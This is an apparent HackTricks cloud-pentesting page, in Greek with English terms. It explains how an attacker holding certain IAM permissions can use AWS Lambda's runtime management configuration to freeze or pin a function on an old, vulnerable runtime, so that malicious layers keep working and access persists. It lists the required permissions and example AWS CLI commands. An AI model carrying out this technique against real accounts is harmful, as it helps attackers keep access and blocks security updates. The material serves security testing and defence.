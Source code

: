 # AWS Lambda – Runtime Pinning/Rollback Abuse via PutRuntimeManagementConfig

{{#include ../../../../banners/hacktricks-training.md}}

Καταχρηστείτε την `lambda:PutRuntimeManagementConfig` για να pin μια function σε μια συγκεκριμένη έκδοση runtime (Manual) ή να παγώσετε τις ενημερώσεις (FunctionUpdate). Αυτό διατηρεί τη συμβατότητα με κακόβουλα layers/wrappers και μπορεί να κρατήσει τη function σε ένα ξεπερασμένο, ευάλωτο runtime για να βοηθήσει exploitation και μακροχρόνια persistence.

Απαιτήσεις: `lambda:InvokeFunction`, `logs:FilterLogEvents`, `lambda:PutRuntimeManagementConfig`, `lambda:GetRuntimeManagementConfig`.

Παράδειγμα (us-east-1):
- Εκτέλεση: `aws lambda invoke --function-name  /tmp/ping.json --payload {} --region us-east-1 > /dev/null; sleep 5`
- Πάγωμα ενημερώσεων: `aws lambda put-runtime-management-config --function-name  --update-runtime-on FunctionUpdate --region us-east-1`
- Επαλήθευση: `aws lambda get-runtime-management-config --function-name  --region us-east-1`

Προαιρετικά, pin σε μια συγκεκριμένη έκδοση runtime εξάγοντας το Runtime Version ARN από τα INIT_START logs και χρησιμοποιώντας `--update-runtime-on Manual --runtime-version-arn <arn>`.

{{#include ../../../../banners/hacktricks-training.md}}
